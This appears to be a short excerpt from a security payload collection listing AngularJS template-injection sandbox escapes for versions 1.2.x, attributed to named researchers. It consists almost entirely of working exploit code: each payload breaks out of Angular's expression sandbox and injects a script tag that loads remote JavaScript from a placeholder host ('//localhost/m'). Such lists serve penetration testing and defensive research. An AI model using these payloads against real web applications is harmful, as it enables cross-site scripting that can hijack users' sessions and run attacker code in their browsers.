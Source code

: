 
```javascript

{{

a="a"["constructor"].prototype;a.charAt=a.trim;

$eval('a",eval(`var _=document\\x2ecreateElement(\'script\');

_\\x2esrc=\'//localhost/m\';

document\\x2ebody\\x2eappendChild(_);`),"')

}}

```

  

1.2.6 - 1.2.18 by Jan Horn (Cure53, now works at Google Project Zero)

  

```javascript

{{

(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'eval("

var _ = document.createElement(\'script\');

_.src=\'//localhost/m\';

document.getElementsByTagName(\'body\')[0].appendChild(_)")')()

}}

```

  

1.2.19 (FireFox) by Mathias Karlsson

  

```javascript

{{

toString.constructor.prototype.toString=toString.constructor.prototype.call;

["a",'eval("var _ = document.createElement(\'script\');

_.src=\'//localhost/m\';

document.getElementsByTagName(\'body\')[0].appendChild(_)")'].sort(toString.constructor);

}}

```
